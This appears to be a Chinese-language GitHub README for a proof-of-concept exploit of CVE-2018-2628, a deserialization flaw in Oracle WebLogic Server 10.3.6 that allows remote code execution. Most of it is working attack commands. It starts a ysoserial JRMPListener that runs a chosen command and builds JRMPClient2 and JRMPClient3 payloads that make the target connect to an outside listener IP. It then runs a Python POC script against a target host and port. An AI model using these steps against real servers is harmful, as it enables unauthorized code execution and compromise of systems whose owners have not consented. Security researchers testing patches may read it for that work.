 # ysoserial-cve-2018-2628 
### 0x1. 准备工作  
- **准备好POC脚本及Payload Object生成、JRMPListener运行所需软件环境**  
Python 2.7.x  
Oracle Java SE 1.7+ 
- **准备好一套安装好Patch Set Update 180417补丁的WebLogic Server 10.3.6环境（仅有AdminServer即可）**  
如果有现成的、已经安装好这个PSU版本的WebLogic环境，则可跳过这一步。
- **准备好POC工具**  
从本项目里下载POC脚本（wls-cve-2018-2628-poc.py）  
从本项目[**release**](https://github.com/tdy218/ysoserial-cve-2018-2628/releases)页面下载Payload Object生成、JRMPListener程序的jar包文件（ysoserial-\<version\>-cve-2018-2628-all.jar）

### 0x2. 运行JRMPListener  
命令格式:    
> java -cp ysoserial-\<version\>-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener \<listen port\> \<gadget class\> \<command\>  

例如:   
> java -cp ysoserial-0.1-cve-2018-2628-all.jar ysoserial.exploit.JRMPListener 22801 Jdk7u21 "calc.exe"  

当看到 ***Opening JRMP listener on 22801** 输出时, 记录JRMPListener所在主机的IP地址（示例为运行在一台公网IP为47.94.158.125的阿里云ECS主机上）和指定的端口。

### 0x3. 根据上一步JRMPListener所在主机的IP地址和监听端口信息, 生成Payload字符串  
目前已知两种方法（生成Payload Object String时，下面两种方法二选一即可）:   
- **利用java.rmi.activation.Activator\[CVE-2017-3248\]**

生成Payload Object String命令格式:  
> java -jar ysoserial-\<version\>-cve-2018-2628-all.jar JRMPClient2 \<JRMPListener IP\>:\<JRMPListener Port\> | xxd -p | tr -d $'\n' && echo    

例如:    
> java -jar ysoserial-0.1-cve-2018-2628-all.jar JRMPClient2 47.94.158.125:22801 | xxd -p | tr -d $'\n' && echo   

样例（用JRMPClient2生成的Payload对象二进制输出数据）:  
![](https://raw.githubusercontent.com/tdy218/public-resources/master/img/JRMPClient2_XXD.png)
- **利用weblogic.jms.common.StreamMessageImpl封装java.rmi.registry.Registry** 

生成Payload Object String命令格式:  
> java -jar ysoserial-\<version\>-cve-2018-2628-all.jar JRMPClient3 \<JRMPListener IP\>:\<JRMPListener Port\> | xxd -p | tr -d $'\n' && echo

例如:   
> java -jar ysoserial-0.1-cve-2018-2628-all.jar JRMPClient3 47.94.158.125:22801 | xxd -p | tr -d $'\n' && echo  

样例（用JRMPClient3生成的Payload对象二进制输出数据）: 
![](https://raw.githubusercontent.com/tdy218/public-resources/master/img/JRMPClient3_XXD.png)

### 0x4. 编辑并运行POC脚本  
编辑wls-cve-2018-2628-poc.py, 用上一步生成的hex字符串替换脚本顶部名为payload_str变量的变量值(此脚本中自带的两个payload_str变量的变量值都可以直接利用, 分别对应上面两种方法生成的hex string).

命令格式:  
> python wls-cve-2018-2628-poc.py <目标WebLogic Server实例监听IP> <目标WebLogic Server实例监听端口>   

例如:  
> python wls-cve-2018-2628-poc.py 192.168.64.83 7001  

样例（已安装了Patch Set Update 180417）:  
![](https://raw.githubusercontent.com/tdy218/public-resources/master/img/weblogic-version-applied-psu.png)  
![](https://raw.githubusercontent.com/tdy218/public-resources/master/img/weblogic-version-applied-psu-poc.png)

### 0x5. 鸣谢  
xxlegend@nsfocus（CVE-2018-2628的漏洞发现和提交者之一，揭示漏洞利用方式及相关代码示例）    
badcode@knownsec（提供weblogic.jms.common.StreamMessageImpl封装java.rmi.registry.Registry的代码示例）   
[ysoserial project](https://github.com/brianwrf/ysoserial)（汇总了许多Java反序列化利用程序）
